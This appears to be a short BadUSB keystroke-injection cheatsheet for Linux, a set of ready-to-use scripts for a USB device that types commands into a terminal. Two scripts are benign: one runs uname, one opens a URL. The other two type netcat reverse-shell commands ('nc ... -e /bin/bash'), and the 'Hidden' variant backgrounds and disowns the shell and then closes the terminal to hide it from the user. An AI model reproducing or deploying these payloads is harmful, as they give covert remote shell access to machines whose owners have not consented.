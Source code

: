 # BadUSb cheatsheet for Linux

Launch a command

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	ALT F2
	DELAY 500
	STRING gnome-terminal
	ENTER
	DELAY 500
	STRING uname -a
	ENTER
	LED 255 0 0

Open a URL

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	ALT F2
	DELAY 500
	STRING gnome-terminal
	ENTER
	DELAY 500
	STRING firefox https://www.youtube.com/

Netcat shell

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	ALT F2
	DELAY 500
	STRING gnome-terminal
	ENTER
	DELAY 500
	STRING nc 127.0.0.1 4444 -e /bin/bash
	ENTER
	
Hidden Netcat Shell

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	ALT F2
	DELAY 500
	STRING gnome-terminal
	ENTER
	DELAY 500
	STRING nc 127.0.0.1 4444 -e /bin/bash > /dev/null 2>&1
	ENTER
	DELAY 500
	CTRL Z
	DELAY 500
	STRING bg
	ENTER
	STRING disown
	ENTER
	STRING exit
	ENTER
	LED 0 0 255
